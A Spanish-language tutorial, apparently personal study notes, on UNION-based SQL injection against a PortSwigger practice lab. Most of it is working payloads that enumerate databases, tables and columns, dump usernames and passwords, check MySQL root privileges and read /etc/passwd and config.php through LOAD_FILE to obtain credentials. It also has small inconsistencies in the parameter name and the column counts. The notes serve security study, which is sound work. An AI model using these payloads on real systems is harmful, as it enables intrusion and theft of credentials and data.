



# Guía práctica: SQL Injection para enumeración y lectura de archivos

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```url
https://web-security-academy.net/filter?category=Gifts
```

---

## Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2`  en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 2.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version-- -
```

## Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
```
Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:

**Query realizada**


**Bases de datos existentes**


### Limit

En ocaciones, necesitaremos limitar la cantidad de información a mostrar. Para ello usaremos el parámetro `limit 0,1` para iterar entre las diferentes respuestas. Piense que hay casos que la información a extraer es extensa, y no es capaz de procesar toda la información de golpe. Por lo que limitar la informaicón mostrada iterarndo con `limit 0,1`, `limit 1,1`... es una buena alternativa

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Gifts`

**Query habitual**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata-- -`

**Query sin post**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata limit 0,1-- -`



### group_concat

Más potente que limit, y siempre que las circunstancias lo permitan, podemos usar el parámetro `group_concat` para agrupar la información y que se nos muestre de seguido

```bash
' UNION SELECT 1,group_concat(schema_name) FROM information_schema.schemata-- -
```




## Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

**Query realizada**


**Tablas existentes en la base de datos 'academy_labs'**



## Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

## Extraer usuarios de una tabla `users`

```sql
' UNION SELECT username, password FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2-- -
2. ' UNION SELECT 1, @@version-- -
3. ' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
4. ' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
5. ' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
6. ' UNION SELECT username, password FROM users-- -
```


---

## Otras queries útiles para SQLi (bonus)

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```


---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
